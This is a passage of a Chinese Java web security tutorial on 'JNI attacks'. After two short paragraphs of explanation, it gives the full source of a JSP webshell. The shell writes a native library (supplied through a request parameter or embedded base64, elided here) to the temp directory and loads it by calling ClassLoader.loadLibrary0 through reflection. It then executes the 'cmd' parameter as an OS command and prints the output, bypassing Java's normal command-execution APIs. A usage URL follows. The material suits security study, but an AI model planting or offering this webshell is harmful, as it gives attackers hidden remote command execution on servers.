

# JNI攻击

Java语言是基于C语言实现的，Java底层的很多API都是通过`JNI(Java Native Interface)`来实现的。通过`JNI`接口`C/C++`和`Java`可以互相调用(存在跨平台问题)。Java可以通过JNI调用来弥补语言自身的不足(代码安全性、内存操作等)。

`JNI`是一种比较特殊的方式，如果能够利用效果等同于绕过Java 命令执行API。

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Method" %>
<%-- load_library_cmd_all.jsp?cmd=ls --%>
<%-- 通过JNI的方式调用动态链接库, 反射调用 ClassLoader 的 loadLibrary0 方法进行加载 --%>
<%!
    private static final String COMMAND_CLASS_NAME = "com.anbai.sec.cmd.CommandExecution";

    /**
     * JDK1.5编译的com.anbai.sec.cmd.CommandExecution类字节码,
     * 只有一个public static native String exec(String cmd);的方法
     */
    private static final byte[] COMMAND_CLASS_BYTES = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 49, 0, 15, 10, 0, 3, 0, 12, 7, 0, 13, 7, 0, 14, 1,
            0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
            101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108,
            101, 1, 0, 4, 101, 120, 101, 99, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97,
            110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114,
            99, 101, 70, 105, 108, 101, 1, 0, 21, 67, 111, 109, 109, 97, 110, 100, 69, 120,
            101, 99, 117, 116, 105, 111, 110, 46, 106, 97, 118, 97, 12, 0, 4, 0, 5, 1, 0, 34,
            99, 111, 109, 47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 109, 100, 47, 67,
            111, 109, 109, 97, 110, 100, 69, 120, 101, 99, 117, 116, 105, 111, 110, 1, 0, 16,
            106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0,
            2, 0, 3, 0, 0, 0, 0, 0, 2, 0, 1, 0, 4, 0, 5, 0, 1, 0, 6, 0, 0, 0, 29, 0, 1, 0, 1,
            0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0, 1, 0, 7, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 1,
            9, 0, 8, 0, 9, 0, 0, 0, 1, 0, 10, 0, 0, 0, 2, 0, 11
    };

    /**
     * 获取JNI链接库目录
     * @return 返回缓存JNI的临时目录
     */
    File getTempJNILibFile() {
        File jniDir = new File(System.getProperty("java.io.tmpdir"), "jni-lib");

        if (!jniDir.exists()) {
            jniDir.mkdir();
        }

        String filename;

        if (isWin()) {
            filename = "cmd.dll";
        } else {
            if (isMac()) {
                filename = "libcmd.lib";
            } else {
                filename = "libcmd.so";
            }
        }


        return new File(jniDir, filename);
    }


    boolean isWin() {
        return (System.getProperty("os.name") != null && System.getProperty("os.name").startsWith("Win"));
    }

    boolean isWin32() {
        return "32".equals(System.getProperty("sun.arch.data.model"));
    }

    boolean isMac() {
        return (System.getProperty("os.name") != null && System.getProperty("os.name").startsWith("Mac"));
    }


    /**
     * 高版本JDKsun.misc.BASE64Decoder已经被移除，低版本JDK又没有java.util.Base64对象，
     * 所以还不如直接反射自动找这两个类，哪个存在就用那个decode。
     * @param str
     * @return
     */
    byte[] base64Decode(String str) {
        try {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (ClassNotFoundException e) {
                Class  clazz   = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        } catch (Exception e) {
            return null;
        }
    }

    /**
     * 写JNI链接库文件
     * @param base64 JNI动态库Base64
     * @return 返回是否写入成功
     */
    void writeJNILibFile(String base64) throws IOException {
        if (base64 != null) {
            File jniFile = getTempJNILibFile();

            if (!jniFile.exists()) {
                byte[] bytes = base64Decode(base64);

                if (bytes != null) {
                    FileOutputStream fos = new FileOutputStream(jniFile);
                    fos.write(bytes);
                    fos.flush();
                    fos.close();
                }
            }
        }
    }
%>
<%
    String cmd = request.getParameter("cmd");
    String jniBytes = request.getParameter("jni");


    String COMMAND_JNI_FILE_BYTES;
    if (isWin()) {
        if (isWin32()) {
            // windows 32
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        } else {
            // windows 64
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        }
    } else {
        if (isMac()) {
            // mac
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        } else {
            // centos 7 64
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        }
    }


    // JNI路径
    File jniFile = getTempJNILibFile();
    ClassLoader loader = (ClassLoader) application.getAttribute("__LOADER__");

    if (loader == null) {
        loader = new ClassLoader(this.getClass().getClassLoader()) {
            @Override
            protected Class<?> findClass(String name) throws ClassNotFoundException {
                try {
                    return super.findClass(name);
                } catch (ClassNotFoundException e) {
                    return defineClass(COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length);
                }
            }
        };

        writeJNILibFile(jniBytes != null ? jniBytes : COMMAND_JNI_FILE_BYTES);// 写JNI文件到临时文件目录

        application.setAttribute("__LOADER__", loader);
    }

    try {
        // load命令执行类
        Class  commandClass = loader.loadClass("com.anbai.sec.cmd.CommandExecution");
        Object loadLib      = application.getAttribute("__LOAD_LIB__");

        if (loadLib == null || !((Boolean) loadLib)) {
            Method loadLibrary0Method = ClassLoader.class.getDeclaredMethod("loadLibrary0", Class.class, File.class);
            loadLibrary0Method.setAccessible(true);
            loadLibrary0Method.invoke(loader, commandClass, jniFile);
            application.setAttribute("__LOAD_LIB__", true);
        }

        String content = (String) commandClass.getMethod("exec", String.class).invoke(null, cmd);
        out.println("<pre>");
        out.println(content);
        out.println("</pre>");
    } catch (Exception e) {
        out.println(e.toString());
        throw e;
    }

%>
```

访问：http://localhost:8000/modules/jni/loadlibrary.jsp?cmd=ls，如下图：

